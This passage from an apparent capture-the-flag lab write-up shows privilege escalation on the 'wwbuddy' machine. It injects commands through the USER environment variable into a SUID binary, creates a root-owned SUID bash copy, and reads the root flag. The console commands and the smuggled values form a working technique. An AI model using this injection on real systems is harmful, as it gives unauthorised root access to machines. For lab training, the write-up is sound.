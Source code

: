 ## Getting a root shell
```console
$ exit
jenny@wwbuddy:~$ id
uid=1002(jenny) gid=1002(jenny) groups=1002(jenny)
jenny@wwbuddy:~$ export USER=';chmod 4755 /bin/bash;'
jenny@wwbuddy:~$ /bin/authenticate 
chmod: cannot access '/bin/bas': No such file or directory
```
Here looks like we have a limitation on the number of letters.

```console
jenny@wwbuddy:~$ export USER=';cp /bin/bash /a;'
jenny@wwbuddy:~$ /bin/authenticate 
Group updated
```
This time we do not get any error. And if we check if for the file, it exists and own by root.
```console
jenny@wwbuddy:~$ ls -la /a
-rwxr-xr-x 1 root jenny 1113504 Nov  8 12:32 /a
```
Now lets change the file permission of this file.
```console
jenny@wwbuddy:~$ export USER=';chmod 4755 /a;'
jenny@wwbuddy:~$ /bin/authenticate 

Group updated
$ 
```
### Checking the file permission
```console
jenny@wwbuddy:~$ ls -la /a
-rwsr-xr-x 1 root jenny 1113504 Nov  8 12:32 /a
```
The newly created binary is owned by root and has SUID bit set. The only thing left for us is to execute it.

```console
jenny@wwbuddy:~$ /a -p
a-4.4# id
uid=1002(jenny) gid=1002(jenny) euid=0(root) groups=1002(jenny)
```
And we are root.

## Reading root.txt
```console
a-4.4# cat /root/root.txt 
THM{ch***g3_th3_3nv*****nt}
```